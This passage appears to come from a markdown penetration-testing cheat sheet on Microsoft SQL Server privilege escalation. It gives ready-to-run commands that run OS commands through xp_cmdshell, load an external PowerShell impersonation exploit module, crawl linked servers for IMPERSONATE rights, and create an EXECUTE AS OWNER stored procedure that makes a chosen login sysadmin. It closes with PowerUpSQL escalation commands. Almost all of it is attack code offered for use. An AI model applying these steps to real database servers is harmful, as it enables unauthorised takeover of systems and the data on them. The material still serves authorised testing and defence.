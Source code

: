 ````
RECONFIGURE
GO
-- Quickly check what the service account is via xp_cmdshell
EXEC master..xp_cmdshell 'whoami'
```
 
#### Impersonate exploit script
- https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/MSSQL/Invoke-SqlServer-Escalate-ExecuteAs.psm1
```
Import-Module .\Invoke-SqlServer-Escalate-ExecuteAs.psm1
Invoke-SqlServer-Escalate-ExecuteAs -SqlServerInstance <INSTANCE> -SqlUser <USER> -SqlPass <PASSWORD>
```
 
#### Check for impersonation through link
```
Get-SQLServerLinkCrawl -Instance <INSTANCE> -Verbose -Query 'SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = ''IMPERSONATE'''
```
 
### Create Stored procedure as DB_Owner
- Prerequisites:
 - db_owner role
 - owner of the database high privileged user
 - Database set to thrustworthy (To enable xp_cmdshell)
 
#### Check the db_owner role
```
select rp.name as database_role, mp.name as database_user
from sys.database_role_members drm
join sys.database_principals rp on (drm.role_principal_id = rp.principal_id)
join sys.database_principals mp on (drm.member_principal_id = mp.principal_id)
```
 
#### Check the owner of the database
```
SELECT suser_sname(owner_sid), * FROM sys.databases
```
 
#### Create a stored procedure
```
USE <DB>;
CREATE PROCEDURE sp_elevate_me
WITH EXECUTE AS OWNER
AS
EXEC sp_addsrvrolemember '<USER TO MAKE SYSADMIN>','sysadmin'
```

#### Execute procedure
```
USE <DB>
EXEC sp_elevate_me
```
 
#### Verify user is sysadmin
```
SELECT is_srvrolemember('sysadmin')
```

#### Automatic execution of stored procedures
- Found and abused with PowerUpSQL
```
invoke-SQLAudit
invoke-SQLEscalatedPriv
````